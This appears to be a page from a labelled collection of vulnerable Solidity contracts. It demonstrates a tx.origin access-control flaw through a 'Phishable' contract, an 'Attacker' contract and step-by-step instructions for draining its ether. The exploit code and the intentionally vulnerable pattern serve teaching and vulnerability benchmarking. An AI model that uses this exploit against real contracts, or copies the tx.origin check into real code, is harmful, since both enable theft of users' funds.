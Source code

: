 ```javascript
    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        // <yes> <report> ACCESS_CONTROL
        require(tx.origin == owner);
        _recipient.transfer(this.balance);
    }
}

```

#### Exploit (payable)

```javascript
/*
 * @source: https://github.com/sigp/solidity-security-blog
 * @author: -
 * @vulnerable_at_lines: 20
 */

 pragma solidity ^0.4.22;

 contract Phishable {
    address public owner;

    constructor (address _owner) {
        owner = _owner;
    }

    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        // <yes> <report> ACCESS_CONTROL
        require(tx.origin == owner);
        _recipient.transfer(this.balance);
    }
}

contract Attacker {
    address public attacker;
    constructor (){
        attacker = msg.sender;
    }
    function attack(address _victim) public {
        Phishable(_victim).withdrawAll(attacker);
    }
    function () public payable{}
}
```



1. deploy contract `Phishable` by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with argument `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`, then get contract address `0x8431717927C4a3343bCf1626e7B5B1D31E240406` [change]
2. call fallback function by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with 1 ether
3. deploy contract `Attacker` by attacker EOA `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`
4. call function `attack` by victim EOA `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` with argument `0x8431717927C4a3343bCf1626e7B5B1D31E240406`(victim contract address)[change]
5. attacker EOA `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2` steals 1 ether
